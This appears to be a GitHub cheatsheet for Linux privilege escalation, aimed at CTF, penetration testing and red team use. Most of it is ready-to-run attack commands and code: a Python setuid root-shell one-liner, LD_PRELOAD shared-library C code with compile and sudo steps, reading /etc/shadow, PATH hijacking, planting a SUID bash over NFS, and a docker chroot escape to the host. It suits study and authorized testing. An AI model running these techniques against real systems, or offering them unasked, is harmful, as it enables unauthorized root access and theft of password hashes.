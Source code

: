 # linux-privilege-escalation-cheatsheet
This is a practical cheatsheet for Linux Privilege Escalation, ordered by priority.  
It is intended for Capture The Flag (CTF) exercises, penetration testing, and red team operations.  
Each section includes examples and ready-to-use commands.

General Info & Enumeration
Always perform this first: identify running processes, open ports, users, and interesting files to find escalation opportunities.

Essential commands:  
whoami  
id  
hostname  
uname -a  
ps aux  
netstat -tulnp  
ss -tulnp  
env  
find / -name "*.log" 2>/dev/null  
find / -writable -type d 2>/dev/null  
cat /etc/crontab  
ls -la /etc/cron.*  
ls -la /var/spool/cron  
ls -la /home  
ls -la /tmp  
sudo -l  

--------------------------------------------------------------------------------------

# **SUDO**
Allows executing commands with elevated privileges if permitted in the sudoers file.  

sudo -l  
If a binary is listed, search it on GTFOBins.

--------------------------------------------------------------------------------------

# **SUID (Set User ID)**
Binaries that run with root privileges even when executed by unprivileged users.  

find / -perm -4000 -type f 2>/dev/null  
find / -perm /4000 2>/dev/null  
Check each binary on GTFOBins for known exploits.  

--------------------------------------------------------------------------------------

# **Capabilities**
Check if regular binaries have special capabilities like cap_setuid, which allow privilege escalation.  

getcap -r / 2>/dev/null  

If cap_setuid+ep is found on binaries like Python:  
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")' 

--------------------------------------------------------------------------------------

# **LD_PRELOAD / LD_LIBRARY_PATH**
Advanced technique using environment variables and sudo to run arbitrary code.  

Check if LD_PRELOAD is allowed:  
sudo -l

Create this C code:  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
  
void _init() {  
   unsetenv("LD_PRELOAD");  
   setgid(0);  
   setuid(0);  
   system("/bin/bash");  
}  

Compile it:  
gcc -fPIC -shared -o /tmp/lib.so shell.c -nostartfiles  

Execute an allowed command:  
sudo LD_PRELOAD=/tmp/lib.so <command>  

Example:  
sudo LD_PRELOAD=/tmp/lib.so find  

--------------------------------------------------------------------------------------

# **Cron Jobs**  
Scheduled scripts executed by root. If editable, they are exploitable.  

cat /etc/crontab  
ls -la /etc/cron.*  
ls -la /var/spool/cron  
  
Check if any scheduled scripts are writable or vulnerable to PATH hijacking.  

--------------------------------------------------------------------------------------

# **Weak File Permissions**
Critical files like /etc/shadow or /etc/passwd with unsafe permissions may allow hash reading or user modification.
  
find / -writable -type f -user root 2>/dev/null  
cat /etc/shadow  
cat /etc/passwd  

--------------------------------------------------------------------------------------

# **PATH Hijacking**  
If a script executed by root uses commands without absolute paths, you can hijack the PATH to run your own version.  
  
echo "/bin/bash" > cp  
chmod +x cp  
export PATH=.:$PATH  
./script.sh  

--------------------------------------------------------------------------------------

# **NFS Misconfiguration**  
If an NFS share is mounted with no_root_squash, you can upload SUID binaries and execute them remotely.  
  
showmount -e <IP>  
mount -t nfs <IP>:/home/backup /mnt/backup  
cp /bin/bash /mnt/backup/rootbash  
chmod +s /mnt/backup/rootbash  
  
--------------------------------------------------------------------------------------
   
# **Docker Misconfiguration**  
If the user is in the docker group, they can access the host by running privileged containers.  
  
id  # Check if you're in the docker group  
docker run -v /:/mnt --rm -it alpine chroot /mnt sh  
  
--------------------------------------------------------------------------------------

# **Kernel Exploits**  
Last resort. Use known exploits against vulnerable kernels (e.g., Dirty COW, OverlayFS).  
  
uname -a  
searchsploit linux kernel  










